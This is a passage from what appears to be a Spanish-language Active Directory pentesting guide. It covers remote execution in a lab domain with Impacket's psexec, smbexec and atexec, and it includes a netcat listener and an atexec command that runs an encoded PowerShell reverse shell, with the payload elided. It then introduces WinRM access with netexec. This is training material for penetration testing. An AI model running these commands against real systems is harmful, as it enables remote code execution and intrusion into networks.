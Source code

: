 ####  9.2.4. <a name='psexec.py'></a>psexec.py

```bash
impacket-psexec HACKLAB.LOCAL/<USER>:'<PASSWORD>'@192.168.56.10
```

####  9.2.5. <a name='smbexec.py'></a>smbexec.py

```bash
impacket-smbexec HACKLAB.LOCAL/<USER>:'<PASSWORD>'@192.168.56.10
```

####  9.2.6. <a name='atexec.py'></a>atexec.py

El [script atexec.py](https://github.com/fortra/impacket/blob/master/examples/atexec.py) utiliza el servicio Programador de tareas de Windows, al que se puede acceder a través de la tubería SMB `atsvc`. Nos permite agregar de forma remota una tarea al programador, que se ejecutará en el momento designado.

Con esta herramienta, la salida del comando se envía a un archivo, al que posteriormente se accede a través del recurso compartido `ADMIN$`. Para que esta utilidad sea efectiva, es esencial sincronizar los relojes de la computadora atacante y de la computadora objetivo al minuto exacto.

Podemos aprovechar esta herramienta insertando un reverse shell en el host de destino.

Nos ponemos en escucha con Netcat

```bash
rlwrap nc -lnvp 4444
```

Ahora pasemos el nombre de dominio, el usuario administrador, la contraseña y la dirección IP de destino. `<domain>/<user>:<password>@<ip>`y, por último, podemos pasar nuestro payload de reverse shell para que se ejecute.

```bash
impacket-atexec HACKLAB.LOCAL/<USER>:'<PASSWORD>'@192.168.56.10 "powershell -e ...SNIP...AbwBzAGUAKAApAA=="
```

###  9.3. <a name='winrm'></a>WinRM

[Windows Remote Management (WinRM)](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) es la versión de Microsoft del [protocolo WS-Management (Web Services-Management)](https://learn.microsoft.com/en-us/windows/win32/winrm/ws-management-protocol) , un protocolo estándar para administrar software y hardware de forma remota. WinRM facilita la transferencia de datos de administración entre computadoras, lo que permite a los administradores realizar una variedad de tareas, como ejecutar scripts y recuperar datos de eventos de sistemas remotos.

WinRM se usa comúnmente junto con PowerShell con fines administrativos y de automatización, lo que lo convierte en una herramienta indispensable para administrar entornos Windows. Proporciona un método seguro y eficiente para interactuar con sistemas remotos, aprovechando los estándares web establecidos para garantizar la compatibilidad y la flexibilidad. La comunicación WinRM utiliza principalmente el puerto TCP `5985` para HTTP y `5986` para HTTPS.

```bash
netexec winrm 192.168.56.10 -u <user> -p <password>
```
####  9.3.1. <a name='invoke-command'></a>Invoke-Command
Podemos usar PowerShell para interactuar con WinRM en Windows, PowerShell tiene cmdlets como [Invoke-Command](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7.4) y [Enter-PSSession](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.4) para administrar y ejecutar comandos en sistemas remotos.
